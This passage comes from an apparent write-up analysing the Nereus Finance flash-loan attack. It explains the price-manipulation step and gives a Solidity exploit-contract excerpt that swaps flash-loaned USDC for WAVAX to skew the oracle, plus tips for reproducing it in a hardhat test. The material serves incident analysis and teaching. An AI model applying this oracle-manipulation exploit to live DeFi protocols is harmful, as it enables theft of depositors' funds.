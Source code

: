 The contract will now gain 0.04533097793130507 JLP tokens. Remember that we just purchased this at the normal, unmanipulated market price.

### Step 4: Price manipulation

The attacker now exchanges all of the USDC they have left (50,460,000 USDC) for as much WAVAX as possible. This will cause the amount of USDC in the pool to increase significantly, whilst decreasing the amount of WAVAX in it. The attacker likely chose the initial amount to flash loan based on the state of the current JLP liquidity pool.

[You can check 'The "vulnerability"' section to see how the amount of USDC and WAVAX are affected by this step](/2022-11-19-nereus-finance-flashloan-attack-analysis/#the-vulnerability).

We can achieve this step by doing the following:

<pre>
 <code id="htmlViewer" style="color:rgb(77, 77, 76); font-weight:400;background-color:rgb(255, 255, 255);background:rgb(255, 255, 255);display:block;padding: .5em;"><span style="color:rgb(77, 77, 76); font-weight:400;">function <span style="color:rgb(66, 113, 174); font-weight:400;">executeOperation</span><span style="color:rgb(245, 135, 31); font-weight:400;">(
  <span style="color:rgb(142, 144, 140); font-weight:400;">// ...</span>
)</span> <span style="color:rgb(137, 89, 168); font-weight:400;">public</span> <span style="color:rgb(66, 113, 174); font-weight:400;">returns</span> <span style="color:rgb(245, 135, 31); font-weight:400;">(<span style="color:rgb(137, 89, 168); font-weight:400;">bool</span>)</span> </span>{
  <span style="color:rgb(142, 144, 140); font-weight:400;">// ...</span>
  
  <span style="color:rgb(142, 144, 140); font-weight:400;">// Step 3: Swap the remaining flashloaned USDC for as much WAVAX as possible.</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// This will drive up the price of WAVAX by a huge amount.</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">//</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// Due to the bug in the oracle, this will lower the exchange rate that&#x27;s</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// used to borrow NXUSD with WAVAX/USDC LP as a collateral significantly,</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// which allows us to borrow a lot more than normal market price.</span>
  router.<span style="color:rgb(245, 135, 31); font-weight:400;">swapExactTokensForTokens</span>(
    usdc.<span style="color:rgb(245, 135, 31); font-weight:400;">balanceOf</span>(<span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>)),
    <span style="color:rgb(245, 135, 31); font-weight:400;">1</span>,
    path,
    <span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>),
    block.timestamp * <span style="color:rgb(245, 135, 31); font-weight:400;">5</span>
  );
}</code></pre>

**Note: if you use the helper code in the `hardhat` test to give yourself 100 million USDC tokens, you need to change the first argument of `swapExactTokensForTokens` to `50460000e6`. This is because you will have over 149 million USDC tokens at this point, and you definitely don't want to swap that much USDC. Step 6 will fail if you do.**
